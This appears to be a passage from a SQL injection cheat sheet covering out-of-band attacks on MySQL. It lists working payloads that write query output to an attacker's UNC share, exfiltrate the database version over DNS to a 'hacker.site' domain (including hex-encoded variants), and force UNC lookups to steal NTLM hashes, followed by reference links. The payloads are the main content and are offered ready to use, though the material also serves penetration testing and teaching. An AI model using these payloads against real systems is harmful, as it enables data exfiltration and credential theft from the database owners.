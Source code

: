 
## MYSQL Out of band

```powershell
select @@version into outfile '\\\\192.168.0.100\\temp\\out.txt';
select @@version into dumpfile '\\\\192.168.0.100\\temp\\out.txt
```

### DNS exfiltration

```sql
select load_file(concat('\\\\',version(),'.hacker.site\\a.txt'));
select load_file(concat(0x5c5c5c5c,version(),0x2e6861636b65722e736974655c5c612e747874))
```

### UNC Path - NTLM hash stealing

```sql
select load_file('\\\\error\\abc');
select load_file(0x5c5c5c5c6572726f725c5c616263);
select 'osanda' into dumpfile '\\\\error\\abc';
select 'osanda' into outfile '\\\\error\\abc';
load data infile '\\\\error\\abc' into table database.table_name;
```

## References

- [MySQL Out of Band Hacking - @OsandaMalith](https://www.exploit-db.com/docs/english/41273-mysql-out-of-band-hacking.pdf)
- [[Sqli] Extracting data without knowing columns names - Ahmed Sultan @0x4148](https://blog.redforce.io/sqli-extracting-data-without-knowing-columns-names/)
- [Help по MySql инъекциям - rdot.org](https://rdot.org/forum/showpost.php?p=114&postcount=1)
- [SQL Truncation Attack - Warlock](https://resources.infosecinstitute.com/sql-truncation-attack/)
- [HackerOne @ajxchapman 50m-ctf writeup - Alex Chapman @ajxchapman](https://hackerone.com/reports/508123)
- [SQL Wiki - netspi](https://sqlwiki.netspi.com/injectionTypes/errorBased)
- [ekoparty web_100 - 2016/10/26 - p4-team](https://github.com/p4-team/ctf/tree/master/2016-10-26-ekoparty/web_100)
- [Websec - MySQL - Roberto Salgado - May 29, 2013.](https://websec.ca/kb/sql_injection#MySQL_Default_Databases)